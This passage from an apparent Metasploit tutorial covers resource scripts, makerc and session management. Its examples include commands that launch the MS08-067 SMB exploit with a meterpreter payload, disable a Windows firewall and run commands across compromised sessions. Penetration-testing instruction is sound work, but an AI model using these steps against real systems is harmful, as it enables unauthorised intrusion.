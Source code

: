 ```

`/root/commands.rc` contains the commands you wish to run

Example:

```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

## Metasploit Resource Script Creation:

Although there are several resource scripts that are available through the framework, you may want to build a custom script of your own. For example, if you routinely run a specific exploit and payload combination against a target, you may want to create a resource script to automate these commands for you. Since this example uses purely ```msfconsole``` commands, the easiest way to create a resource script is through the ```makerc``` command available in ```msfconsole```. The ```makerc``` command records all of the commands you've run in the console and saves them in a resource script for you.

```
msf > workspace demo
msf > use exploit/windows/smb/ms08_067_netapi
msf (ms08_067_netapi) > set RHOST 192.168.1.1
msf (ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
msf (ms08_067_netapi) > exploit
```

To save these commands to a resource script, we can use the ```makerc``` command. We'll need to provide the output location and name we want the script to use:

```
msf (ms08_067_netapi) > makerc ~/Desktop/myscript.rc
```

## Metasploit Session Management:

List all sessions

```
msf6> sessions
```
Execute command across all sessions

```
msf6> sessions -C <command>
```

Kill all sessions

```
msf6> sessions -K
```

Upgrade a shell to a meterpreter session on many platforms

```
msf6> sessions -u
```

## Metasploit Tips I Discovered Too Late:

```